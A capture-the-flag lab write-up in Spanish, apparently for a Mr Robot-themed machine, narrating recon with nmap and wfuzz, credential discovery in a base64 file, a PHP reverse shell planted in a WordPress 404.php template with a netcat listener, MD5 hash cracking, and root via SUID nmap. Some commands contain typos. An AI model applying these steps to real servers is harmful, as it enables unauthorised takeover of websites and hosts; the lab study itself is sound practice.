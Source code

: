 Reconocimiento y Enumeracion:
1 - Se comienza con un escaneo de toda la red para obtener los ip disponibles.
2 - Enumeramos todos los puertos de la ip obtenida. (22,80,443)
3 - Lanzamos una serie de scripts basicos de reconocimiento.
	- ping -c 1 [IP] 
		Segun el ttl obtenemos el sistema, [linux m 64]
	- nmap --script=http-enum [IP]
		robots.txt
		Al revisar el robots.txt encontramos dos nombres de archivos.
			fsociety.dict
			key-1-of-3.txt
	- whatweb [IP]
		Obtenemos informacion de la red y vemos que corre bajo un wordpress, esto nos servira para mas tarde.
	- wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://[IP]/FUZZ
		Obtenemos:
		/images
		/css
		/image
		/license
		/feed
		/video
		/wp-login ---
		Revisando los directorios vemos algo interesante 
		en /wp-login.php:
			Encontramos el login de administracion de wordpress.
		en /license:
			Al hacerle un curl a http://[IP]/license obtenemos un texto en base64 al decodificar el texto obtenemos:
				elliot:ER28-0652
		Tenemos un posible usuario y contraseña.
Analisis de Vulnerabilidades:
4 - Ahora que tenemos credenciales y un login podemos probar entrar.
Explotacion de Vulnerabilidades:
5 - Una vez en configuracion nos desplazamos a:
	- Appearance	
	 - Editor
	  - 404.php

	Luego aqui inyectamos nuestra reverse shell, en este caso utilizamos la reverse shell de monkeypentester.
		- Editamos la ip y ponemos la nuestra y el puerto 443
	Ahora nos ponemos en escucha:
		- rlwrap nc -nlvp 443
Ahora vamos al navegador y abrimos.
	http://[IP]/1234 para que de error y se active el fichero y obtenemos una shell 

Post-Explotacion:
6 - Una vez dentro realizamos una tratamiento de la tty para mayor movilidad
	- script /dev/null -c /bin/bash
	- export TERM=xterm
	- export SHELL=/bin/bash
	
7 - Procedemos a enumerar el sistema:
	- whoami
	Somos el usuario daemon, revisamos el directorio /home y entramos al directorio robot:
		- key-2-of-3.txt
		- password.raw-md5
	Vemos que tenemos un archivo de texto pero no podemos abrir la flag y al revisarlo obtenemos:
		robot:[hash]
8 - Escalada de privilegios:
	- Tenemos el usuario robot y su hash md5, intentamos crackear la contraseña en caso de ser debil
	john --wordlist /usr/share/wordlist/rockyou.txt file.hash
	- Luego de un rato obtenemos las credenciales.
	 *robot:abcdefghijklmnopqrstuvwxyz
	- Entramos por ssh robot@[IP] -p "abcdefghijklmnopqrstuvwxyz"
	Nos damos cuenta de que con este usuario si podemos abrir la flag

	Revisamos los permisos que tenemos:
	- id
	- group
	- sudo -l
	- find / -perm 4000 2 m /dev/null

	- Lo que nos llama la atencion en este caso es que nmap tiene como propietario al usuario root y posee el permiso SUID
	- Revisamos GTFObins de nmap y vemos que existe un vulnerabilidad:
		nmap --interactive
		nmapm !sh
	Tratamos la tty y ya somos root.
	Listamos el directorio /root y encontramos la tercera flag

